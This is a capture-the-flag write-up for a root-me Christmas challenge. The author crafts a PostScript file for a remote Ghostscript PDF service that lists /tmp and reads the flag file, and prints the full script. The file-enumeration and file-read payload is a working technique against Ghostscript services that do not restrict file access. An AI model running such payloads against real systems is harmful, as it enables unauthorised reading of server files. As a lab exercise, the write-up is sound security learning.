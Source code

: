 ## Ghost in the shell - Day 17 (Ghostscript)

We are told that Santa has set up a PDF creation service.
It's old school and works as follows: you supply a .gs file to a remote root-me server/port and the service answers with the PDF in base64.

We are told there is a flag in `/tmp/flag-<RANDOM>.txt`
So, we need to craft a ghostscript file that can read files in `/tmp`, and then show the content of that flag file. [This blog post is helpful to understand how to craft the Ghostscript file](https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation)


For each file in `/tmp`, we call `showfilename`:

```postscript
% Use filenameforall to list files in /tmp
(/tmp/*) { showfilename } 1024 string filenameforall
```

Then, in `showfilename` we simply display the filename:

```postscript
% Define a procedure to show filenames
/showfilename {
    /Helvetica findfont 10 scalefont setfont
    100 posY moveto
    show
    /posY posY 20 sub def % Move down for the next filename
} def
```

We run the script once and find there is an interesting flag file: `/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt`

We edit our script to show the contents of the file. 

> Note that I was actually surprised this gave the flag, I would have thought the flag file to have a different name at each run, but it wasn't the case.

```postscript
(/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt)
 (r) file 1024 string readstring
```

This is the full script:

```postscript
%!PS
/Helvetica findfont 12 scalefont setfont
100 700 moveto

(Hello, world merry Christmas) show
100 680 moveto

% Set up initial position for file listing
/posY 660 def

% Define a procedure to show filenames
/showfilename {
    /Helvetica findfont 10 scalefont setfont
    100 posY moveto
    show
    /posY posY 20 sub def % Move down for the next filename
} def

% Use filenameforall to list files in /tmp
(/tmp/*) { showfilename } 1024 string filenameforall

(/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt)
 (r) file 1024 string readstring
```